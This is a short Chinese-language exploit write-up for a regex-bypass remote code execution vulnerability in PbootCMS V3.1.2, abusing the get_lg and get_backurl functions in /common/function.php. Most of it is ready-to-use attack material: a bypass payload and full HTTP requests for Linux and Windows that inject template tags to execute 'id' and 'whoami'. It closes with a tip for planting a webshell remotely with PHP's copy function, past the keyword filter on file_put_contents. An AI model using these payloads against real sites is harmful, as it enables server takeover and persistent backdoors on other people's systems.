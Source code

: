 # PbootCMS V3.1.2 正则绕过 RCE 漏洞

## 漏洞描述

PbootCMS 项目路径下 /common/function.php 中存在两个函数 get_lg 和 get_backurl，可绕过正则处理，进而执行命令。

## 漏洞复现

Bypass exp：

```
?snakin=}{pboot:if((get_lg/*-*/())/**/(get_backurl/*-*/()))}{/pboot:if}&backurl=;id
```

Linux exp：

```
GET /index.php/keyword?keyword=}{pboot:if((get_lg/*aaa-*/())/**/(get_backurl/*aaa-*/()))}123321aaa{/pboot:if}&backurl=;id HTTP/1.1
Host: your-ip
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: your-ip
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lg=system; PbootSystem=8ea446nv2usihctikbjm7qg6c6
Connection: close
```

Windows exp：

```
GET /?member/login/?a=}{pboot:if((get_lg/*aaa-*/())/**/("whoami"))}{/pboot:if} HTTP/1.1
Host: your-ip
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer:your-ip
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lg=system; PbootSystem=8ea446nv2usihctikbjm7qg6c6
Connection: close
```

写 `webshell` 时用 `file_put_contents` 写入时有关键字限制：

![image-20230601112738897](images/image-20230601112738897.png)

可使用 `copy` 函数远程落地。